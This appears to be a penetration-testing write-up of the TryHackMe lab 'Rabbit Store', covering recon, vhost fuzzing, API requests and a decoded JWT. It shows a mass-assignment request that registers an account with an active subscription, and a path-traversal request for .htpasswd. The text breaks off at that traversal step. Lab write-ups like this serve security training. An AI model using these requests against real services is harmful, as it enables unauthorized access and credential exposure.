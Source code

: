 ```yaml
---
title: Rabbit Store
description: TryHackMe Lab
---
```

## Recon
### nmap
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3f:da:55:0b:b3:a9:3b:09:5f:b1:db:53:5e:0b:ef:e2 (ECDSA)
|_  256 b7:d3:2e:a7:08:91:66:6b:30:d2:0c:f7:90:cf:9a:f4 (ED25519)
80/tcp    open   http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://cloudsite.thm/
3397/tcp  closed saposs
4369/tcp  open   epmd    Erlang Port Mapper Daemon
| epmd-info:
|   epmd_port: 4369
|   nodes:
|_    rabbit: 25672
25672/tcp open   unknown
32469/tcp closed unknown
44774/tcp closed unknown
51612/tcp closed unknown
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP 80
#### Site
Redirects to http://cloudsite.thm/
![](../../../../public/images/THM_RabbitStore_20250612%20_151713.png)

Login → http://storage.cloudsite.thm/
#### Tech Stack
cloudsite.thm
- Apache HTTP Server 2.4.52
- Ubuntu
- OWL Carousel
storage.cloudsite.thml
- Apache/2.4.52 (Ubuntu)
- Express
![](../../../../public/images/THM_RabbitStore_20250612%20_155656.png)
#### vhost
```bash
vhost-fuzzer cloudsite.thm ~/Wordlist/SecLists/Discovery/DNS/subdomains-top1million-20000.txt http://cloudsite.thm --fw 18                    03:26:51 pm

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cloudsite.thm
 :: Wordlist         : FUZZ:/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.cloudsite.thm
 :: Header           : User-Agent: PENTEST
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

storage                 [Status: 200, Size: 9039, Words: 3183, Lines: 263, Duration: 268ms]
```

#### api
```http
POST /api/login HTTP/1.1
Host: storage.cloudsite.thm
Content-Length: 42
Accept-Language: en-GB,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Origin: http://storage.cloudsite.thm
Referer: http://storage.cloudsite.thm/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"test@test.com","password":"123"}
```

#### signup
```http
POST /api/register HTTP/1.1
Host: storage.cloudsite.thm
Content-Length: 50
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://storage.cloudsite.thm
Referer: http://storage.cloudsite.thm/register.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"john@test.com","password":"password123"}
```

#### sign up user
http://storage.cloudsite.thm/dashboard/inactive
![](../../../../public/images/PS_RabbitStore_20250612%20_154642.png)

#### JWT
```http
GET /dashboard/active HTTP/1.1
Host: storage.cloudsite.thm
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImpvaG5AdGVzdC5jb20iLCJzdWJzY3JpcHRpb24iOiJpbmFjdGl2ZSIsImlhdCI6MTc0OTcwNzEyOSwiZXhwIjoxNzQ5NzEwNzI5fQ.bAvx1OLSliPZLY7cv0It7TcOAnka4ip4XtSsMoOWZGE
Connection: keep-alive
```

```json
jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImpvaG5AdGVzdC5jb20iLCJzdWJzY3JpcHRpb24iOiJpbmFjdGl2ZSIsImlhdCI6MTc0OTcwNzEyOSwiZXhwIjoxNzQ5NzEwNzI5fQ.bAvx1OLSliPZLY7cv0It7TcOAnka4ip4XtSsMoOWZGE
```

```json
Headers = {
  "alg": "HS256",
  "typ": "JWT"
}

Payload = {
  "email": "john@test.com",
  "subscription": "inactive",
  "iat": 1749707129,
  "exp": 1749710729
}

Signature = "bAvx1OLSliPZLY7cv0It7TcOAnka4ip4XtSsMoOWZGE"
```

- server checks signature
- secret not crackable
### Mass assignment
Possible field of the user object.
![](../../../../public/images/THM_RabbitStore_20250612%20_164223.png)
`POST /api/register HTTP/1.1`

```json
{
	"email":"john2@test.com",
	"password":"password123",
}
```

```http
POST /api/register HTTP/1.1
Host: storage.cloudsite.thm
Content-Length: 73
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://storage.cloudsite.thm
Referer: http://storage.cloudsite.thm/register.html
Accept-Encoding: gzip, deflate, br
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImpvaG4yQHRlc3QuY29tIiwic3Vic2NyaXB0aW9uIjoiaW5hY3RpdmUiLCJpYXQiOjE3NDk3MDc1OTksImV4cCI6MTc0OTcxMTE5OX0.6Z4Y28KYisl8K-Xx2IZ2t1tG9QjWeF1NYr0J1yjYgoM
Connection: keep-alive

{"email":"max@test.com","password":"test123",
"subscription":"active"
}
```
```http
HTTP/1.1 201 Created
Date: Thu, 12 Jun 2025 06:40:56 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 42
ETag: W/"2a-nMoFx54+czTntmSLXl3mqIsZV4A"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{"message":"User registered successfully"}
```

![](../../../../public/images/THM_RabbitStore_20250612%20_164644.png)
![](../../../../public/images/THM_RabbitStore_20250612%20_164530.png)
### Path traversal
`.htpasswd`
```http
GET /assets/%2ehtpasswd HTTP/1.1
Host: storage.cloudsite.thm
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://storage.cloudsite.thm/assets/plugins/testimonial/
Accept-Encoding: gzip, deflate, br
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImpvaG4yQHRlc3QuY29tIiwic3Vic2NyaXB0aW9uIjoiaW5hY3RpdmUiLCJpYXQiOjE3NDk3MDc1OTksImV4cCI6MTc0OTcxMTE5OX0.6Z4Y28KYisl8K-Xx2IZ2t1tG9QjWeF1NYr0J1yjYgoM
Connection: keep-alive

```

![](../../../../public/images/THM_RabbitStore_20250612%20_162951.png)